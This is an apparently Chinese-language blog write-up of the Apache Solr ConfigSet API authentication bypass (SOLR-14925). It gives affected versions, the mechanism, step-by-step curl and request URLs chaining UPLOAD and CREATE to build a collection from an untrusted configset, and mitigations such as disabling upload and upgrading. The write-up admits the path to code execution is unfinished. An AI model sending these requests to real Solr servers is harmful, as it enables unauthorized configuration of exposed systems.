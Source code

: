 
### 影响版本
- 6.6.0 to 6.6.5
- 7.0.0 to 7.7.3
- 8.0.0 to 8.6.2

### 漏洞描述
本来Solr禁止了一些通过ConfigSet这个API上传进行配置的功能，因为这种危险操作容易造成RCE。但是可以通过结合UPLOAD/CREATE这两个ACTION来绕过这一限制。


原文
> Solr prevents some features considered dangerous (which could be used for remote code execution) to be configured in a ConfigSet that's uploaded via API without authentication/authorization. The checks in place to prevent such features can be circumvented by using a combination of UPLOAD/CREATE actions.

### 漏洞利用条件
- Solr的API未设置认证
- SolrCloud模式启动（因为Standalone模式不具备Configset API的功能）


### 漏洞原理：

正常的通过UPLOAD传上去的configset，是不能用于创建collection的： 如果尝试创建，会出现这个错误
```
The configset for this collection was uploaded without any authentication in place, and use of <lib> is not available for collections with untrusted configsets. To use this component, re-upload the configset after enabling authentication and authorization.
```
我理解就是："你用来创建collection的这个configset是在没有认证的情况下上传的，我们知道这是不安全的，我们不信任这个configset，所以我们不让这个configset创建collection。要是真想用这个configset创建collection，等开启了认证之后再重新上传吧。"

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201013205617142.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70)
而当我们先UPLOAD，然后基于这个configset，去CREATE一个collection，就可以绕过这个限制。

达到的效果是可以自定义configset，然后基于此创建恶意collection。目前没想到如何利用好这个自定义的配置实现RCE。只知道用之前的模板注入，不过那个有版本限制吧？

### 步骤：
```
1、【UPLOAD】准备恶意配置，打包，上传

# 先将配置打包成zip
 (cd solr/server/solr/configsets/sample_techproducts_configs/conf && zip -r - *) > db-configset.zip
 
 # 再通过上传API将zip上传
 curl -X POST --header "Content-Type:application/octet-stream" --data-binary @db-configset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=db-configset"
2、【CREATE】根据UPLOAD的配置，创建一个新的配置，绕过不能通过直接UPLOAD创建collection的限制

/solr/admin/configs?action=CREATE&name=db-configset1&baseConfigSet=db-configset&configSetProp.immutable=false&wt=xml&omitHeader=true
3、【LIST】查看Configsets的配置，确保已生成了新的configset

/solr/admin/configs?action=LIST&omitHeader=true
4、根据CREATE得到的configset创建恶意collection

/solr/admin/collections?action=CREATE&numShards=1&name=coll_test1&collection.configName=db-configset1
5、利用之前的漏洞进行利用？
```

### 修复建议/缓解措施

- 禁用UPLOAD命令，即`-Dconfigset.upload.enabled=false`；
- 进行认证
- 升级到8.6.3及以上
- 若无法升级，尝试打这个补丁：[SOLR-14663](https://issues.apache.org/jira/browse/SOLR-14663)
- 设置防火墙规则进行访问控制，设置Solr API访问的白名单


### 参考
- https://seclists.org/oss-sec/2020/q4/47
- [ConfigSets CREATE does not set trusted flag](https://issues.apache.org/jira/browse/SOLR-14663)
- https://issues.apache.org/jira/browse/SOLR-14925



### Note
参考：
http://mail-archives.apache.org/mod_mbox/lucene-solr-user/201807.mbox/%3CCAPCX2-+jojXrWvPSPiBR_xwphdpk+yPM2HYLojX2rqRTKMGm9g@mail.gmail.com%3E


Solr可以运行在两种模式："Cloud" mode or "Standalone" mode。

SolrCloud mode下，可以创建collections，而在Standalone mode下，只能创建core。


在Standalone mode下会出现400，
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020101311185353.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)
关闭，重新启动SolrCloud mode：
这次成功了：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201013111947306.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)



### 附录
#### 上传Configsets
```
# 先将配置打包成zip
 (cd solr/server/solr/configsets/sample_techproducts_configs/conf && zip -r - *) > myconfigset.zip
 
 # 再通过上传API将zip上传
 curl -X POST --header "Content-Type:application/octet-stream" --data-binary @myconfigset.zip "http://localhost:8983/solr/admin/configs?action=UPLOAD&name=myConfigSet"
```

#### 创建Configsets
基于之前上传的Configsets创建一个新的configset 
- name：这个新的configset的名字
- baseConfigSet：基于哪个上传的Configsets
- configSetProp.immutable：将这个设置为false

```
http://cqq.com:8983/solr/admin/configs?action=CREATE&name=myConfigSet1&baseConfigSet=myConfigSet&configSetProp.immutable=false&wt=xml&omitHeader=true
```

#### 查看Configsets：
```
http://cqq.com:8983/solr/admin/configs?action=LIST&omitHeader=true
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201013113257997.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2NhaXFpaXFp,size_16,color_FFFFFF,t_70#pic_center)

上传、以及配置后的Configsets并不在文件系统中，而是在Zookeeper中。

> The Configsets API enables you to upload new configsets to ZooKeeper, create, and delete configsets when Solr is running SolrCloud mode.


> This API provides a way to upload configuration files to ZooKeeper and share the same set of configuration files between two or more collections.

